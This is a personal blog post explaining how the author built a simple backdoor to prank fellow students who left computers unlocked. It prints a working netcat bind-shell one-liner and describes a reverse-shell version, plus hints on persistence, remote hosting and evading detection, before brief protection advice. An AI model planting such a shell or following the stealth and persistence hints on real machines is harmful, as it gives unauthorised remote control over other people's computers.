 ```yaml
---
title: How I've created a backdoor?
author: Lucas Marandat
date: 2020-04-30T00:00:00.000Z
excerpt: By explaining how I've created a basic backdoor, you'll understand how
  they work and how to protect yourself.
tag: book
hero: images/hero.png
---
```


## 🚀 Introduction

### Disclaimer

Any actions and or activities related to the material contained within this repository are solely your responsibility. The misuse of the information on this website can result in criminal charges brought against the persons in question. The author will not be held responsible in the event any criminal charges be brought against any individuals misusing the information in this repository to break the law.

### Definition

A backdoor is a typically covert method of bypassing normal authentication to usually remote access to a computer.

### Why!?

I’ve always been interested in how things work. In my IT school, every time someone left his computer, he should have lock it. Why? Because an unlocked computer is the best way to be hacked. So, to make sure new students lock their computer, we usually script[^script] the unlocked computer to remind him next time to lock it.

[^script]: A script is usually a small bash code like `alias ls=reboot` to prank someone.

In many cases, we (teaching assistants) don’t always have time to write an efficient script (an alias is sometimes not enough). To solve this, I’ve 2 solutions :

1. Make a remote script that can be quickly “cloned” and launched.
2. Make a backdoor and script them remotely.

As you guess it, I’ve chosen the funniest one 🙃

## ⏰ Coding time!

To begin with, I've started by the quickest and the easiest way to create my backdoor. So let's write some `bash` code!

### Version 1 ([code here](https://github.com/lucasmrdt/how-i-created-a-backdoor/tree/master/basic-backdoor))

```shell
mkfifo FIFO
nc -l -p 8080 2> /dev/null < FIFO | bash > FIFO 2>&1
```

#### That's it! Let's go into the details :

![version 1 diagram](images/diagram-version-1.0.jpg 'version 1 diagram')

Our backdoor is just a server that listens on port **8080** created by `nc -l -p 8080`. The server is hosted on the client-side (the target is the student in my case). This server takes a "bash command" (eg. `echo "test"` ) as request and answers the output of this one (eg. `test` ).

1. We use [unix pipeline](<https://en.wikipedia.org/wiki/Pipeline_(Unix)>) ("|") to redirect the "request payload" (the command sent by me) to the "bash" program.
2. We use [named pipe](https://en.wikipedia.org/wiki/Named_pipe) ("FIFO") to redirect the output of "bash" program to the client response.

#### Limitations :

1. ✅ To use this backdoor we must use the same network as the victim. So you can't use this backdoor at your home. (that's not our goal)
2. 🚫 Many computers use firewalls to restrain requests of unknown computers. **Almost all IT students running Fedora 28 have this firewall enabled, so we're stuck to the same point...**

### Version 2 - How can we solve the "Limitation n°2"? ([code here](https://github.com/lucasmrdt/how-i-created-a-backdoor/tree/master/advanced-backdoor))

What if we exchange our roles? The firewall forbids our request (because we're not a known computer) but can it forbid the victim to request someone? Of course not, overwise you could never reach "google.fr" 👌🏻

To explain to you what I mean by "exchange our roles" let's look at this diagram below :

![version 2 diagram](images/diagram-version-2.0.jpg 'version 2 diagram')

#### Step by step how this implementation works :

1. The victim tries to connect to the server launched by me.
2. When the connection is completed, me (as the server) send it the command to execute (eg. `echo "test"` ).
3. The victim sends me back the response.
4. And so on...

#### Limitations?

No hard limitations, this schema is a basic client-server communication but instead of sending payload the client also executes some commands.

#### Demo:

![demo](images/demo.0.gif 'demo')

#### Going deeper:

- What if your backdoor-server is not launched when the backdoor-client request it? Is your backdoor-client should stop? (Of course not...)
- Is your backdoor request an IP or instead use a DNS to be more flexible? ([maybe this could help you](https://www.freenom.com/fr/index.html))
- Can we host our backdoor-server on a VPS instead of our computer? ([here 😉](https://aws.amazon.com/fr/ec2/))
- How can we make our backdoor-client persisting during the time (eg. when victim reboots his computer)? ([here](https://fr.wikipedia.org/wiki/Cron) and [here too](https://unix.stackexchange.com/questions/129143/what-is-the-purpose-of-bashrc-and-how-does-it-work))
- How can the backdoor-client be almost undetectable? (name, programming language, ...)

## 😱 How can I protect myself?

- Lock your computer. 😇
- Be careful of what you download on the internet.
- Use efficient anti-virus.
- Implement a [Zero Trust Architecture](https://www.paloaltonetworks.com/cyberpedia/what-is-a-zero-trust-architecture)

## 📦 Source code [here](https://github.com/lucasmrdt/how-i-created-a-backdoor)

## ✍🏻 Something wrong or a suggestion? Suggest a change [here](https://github.com/lucasmrdt/personal-blog/blob/master/content/posts/2020-04-30-how-i-ve-created-a-backdoor/index.md)
